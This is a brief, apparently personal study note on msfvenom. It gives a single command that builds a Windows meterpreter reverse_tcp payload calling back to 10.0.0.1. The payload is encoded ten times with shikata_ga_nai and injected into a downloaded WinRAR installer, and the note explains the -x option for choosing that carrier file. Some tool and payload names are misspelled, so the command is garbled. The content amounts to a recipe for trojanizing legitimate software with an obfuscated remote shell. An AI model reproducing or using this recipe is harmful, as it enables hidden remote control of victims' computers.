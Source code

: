 mafvenom
- msfvenome -p windows/meterpter/reverse__tcp LHOST=10.0.0.1 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_payloads/encoded86.exe
- we specify where we want to inject  and we want to inject it in winrar executable that we download 
- the following Msfvenom options can be used to specify a custom executable file for injection using -x then path to winrar file
- 